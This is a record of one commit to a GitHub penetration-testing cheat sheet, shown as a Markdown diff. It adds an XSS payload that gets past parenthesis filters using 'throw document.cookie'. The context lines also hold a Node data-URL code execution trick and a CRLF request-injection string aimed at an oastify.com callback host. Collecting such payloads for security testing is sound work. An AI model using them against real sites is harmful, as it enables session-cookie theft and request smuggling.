

Before and after one commit to bin3xish477/cybersecurity, a Markdown page: CheatSheets/pentest-cheat-sheet.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Adding xxs parenthesis filter bypass using throw

````diff
--- a/CheatSheets/pentest-cheat-sheet.md
+++ b/CheatSheets/pentest-cheat-sheet.md
@@ -2057,3 +2057,8 @@ node --import='data:application/javascript,console.log(1337)'
 ```
 /%20HTTP/1.1%0d%0aHost:%20oastify.com%0d%0a%0d%0a
 ```
+
+### XSS Parenthesis Filter Bypass
+```javascript
+javascript:var {}={}; throw document.cookie
+```
````
